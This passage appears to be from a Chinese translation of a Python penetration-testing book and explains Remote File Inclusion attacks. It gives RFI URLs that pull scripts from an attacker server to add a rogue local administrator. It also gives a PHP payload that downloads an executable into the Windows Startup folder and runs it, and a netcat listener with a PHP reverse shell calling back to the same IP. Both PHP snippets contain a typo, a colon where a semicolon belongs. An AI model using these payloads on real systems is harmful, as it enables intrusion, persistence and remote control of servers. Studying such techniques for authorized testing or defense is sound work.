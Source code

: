 现在，我们所要做的就是从我们公开的服务器引用脚本，如下所示：

[http://www.example.website.com/?target=70.106.216.176:8000/server/account.txt](http://www.example.website.com/?target=70.106.216.176:8000/server/account.txt)

如果可能，这将在服务器上创建一个新的恶意本地管理员，我们可以使用该管理员访问服务器。如果系统将 RDP 公开给 Internet，我们的工作将在这里完成，我们只需使用新帐户直接登录系统。如果不是这样，那么我们需要找到另一种方法来利用这个系统；为此，我们将使用实际有效载荷。

创建一个负载，如[第 5 章](05.html#aid-1DOR01 "Chapter 5. Exploiting Services with Python")*使用 Python*开发服务中强调的，并将其移动到用于存储引用文件的目录中。

### 提示

用于此攻击的最佳端口为端口 80、端口 443 和端口 53。确保这些服务没有冲突。

创建一个新的 PHP 脚本，可以直接下载文件并执行，名为`payload_execute.txt`：

```
<pre style="text-align:left;">
<?php
    file_put_contents("C:\Documents and Settings\All Users\Start Menu\Programs\Startup\payload.exe", fopen("http://70.106.216.176:8000/server/payload.exe", 'r'));
    echo shell_exec('C:\Documents and Settings\All Users\Start Menu\Programs\Startup\payload.exe'):
?>
</pre>
```

现在，设置您的侦听器（如[第 5 章](05.html#aid-1DOR01 "Chapter 5. Exploiting Services with Python")所述，*使用 Python*开发服务）以侦听已定义的本地端口。最后，将新脚本加载到 RFI 请求中，并观察新的潜在 shell 出现：

[http://www.example.website.com/?target=70.106.216.176:8000/server/payload_execute.txt](http://www.example.website.com/?target=70.106.216.176:8000/server/payload_execute.txt)

这些示例说明了如何利用 Windows 主机，但如果它是 Linux 系统呢？根据主机的权限结构，获取 shell 可能会更加困难。也就是说，您可以在 localhost 中查找可能包含明文密码的本地文件和存储库。

Linux 和 Unix 主机为攻击者提供的好处是通常安装了`netcat`和几种脚本语言。每一个都可以向攻击者的监听系统提供一个命令外壳。例如，使用以下命令在面向 Internet 的主机上设置`netcat`侦听器：

```
nc -l 443

```

然后，创建一个存储在文本文件中的 PHP 脚本，如`netcat.txt`：

```
<pre style="text-align:left;">
<?php
    echo shell_exec('nc -e /bin/sh 70.106.216.176 443'):
?>
</pre>
```

接下来，通过引用 URL 中的脚本来运行脚本，如前所示：

[http://www.example.website.com/?target=70.106.216.176:8000/server/netcat.txt](http://www.example.website.com/?target=70.106.216.176:8000/server/netcat.txt)
